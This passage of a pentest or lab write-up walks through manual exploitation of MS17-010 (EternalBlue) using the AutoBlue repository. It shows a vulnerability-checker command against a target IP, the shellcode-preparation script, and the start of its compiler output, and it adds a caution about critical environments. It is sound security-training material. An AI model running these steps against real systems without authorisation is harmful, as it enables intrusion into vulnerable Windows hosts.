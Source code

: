 ### Manual exploitation

We did a quick search on google and found this detailed walkthrough on how to exploit **ms-17** without metasploit. [See here](https://github.com/3ndG4me/AutoBlue-MS17-010)

![exploit](/assets/img/ms-17-manual-exploit.png)

Note: Clone the exploit to your attacker machine and follow the installation guideline in the repo.

> The exploit has a script to check if our target is potentially vulnerable

```bash
python eternal_checker.py <TARGET-IP>
```

![checker](/assets/img/manual-eternal-blue-checker.png)

**Important note**: In a real world pentest assessment, don't run any exploit in critical environments such as hospitals. Therefore, before running any exploit on a machine you don't know, ask your client first to know if its safe or not. So you don't endanger human lives or cause Denial of service to critical infrastructure or services.

Then we followed the `usage` guideline in the repo:

```bash
sudo ./shell_prep.sh
```

```bash
┌──(kali㉿kali)-[/opt/AutoBlue-MS17-010/shellcode]
└─$ sudo ./shell_prep.sh
[sudo] password for kali:
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
```